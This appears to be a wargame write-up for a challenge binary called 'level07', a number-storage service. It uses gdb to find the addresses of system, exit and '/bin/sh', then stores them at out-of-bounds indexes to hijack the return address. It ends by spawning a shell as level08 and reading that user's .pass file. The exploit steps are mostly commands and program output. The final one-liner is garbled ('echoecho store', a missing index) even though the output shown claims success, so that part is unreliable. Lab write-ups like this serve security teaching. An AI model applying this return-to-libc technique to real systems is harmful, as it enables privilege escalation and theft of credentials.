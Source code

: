 # Level 07

## the stack

![The stack](the_stack_override07.jpg)

## the method

We have a way to overwrite the memory.

let's try to overwrite eip

no shellcode because env is set to 0 at begging

(gdb) p/c 1073741938
$1 = 114 'r'
(gdb) p/c 1073741939
$2 = 115 's'
(gdb) p/c 1073741940
$3 = 116 't'
(gdb)

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find system, +9999999, "/bin/sh"
0xf7f897ec

1073741938 => 4159090384 (0xf7e6aed0)
1073741939 => 4159040368 (0xf7e5eb70)
116 => 4160264172 (0xf7f897ec)

```sh
$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 1073741939
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
```

## the hack

final command:

```sh
$ (echo store; echo 4159090384; echo 1073741938 && echo store; echo 4159040368; echoecho store; echo 4160264172; echo 116 && echo quit; cat) | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully

whoami
level08

cat /home/users/level08/.pass
```
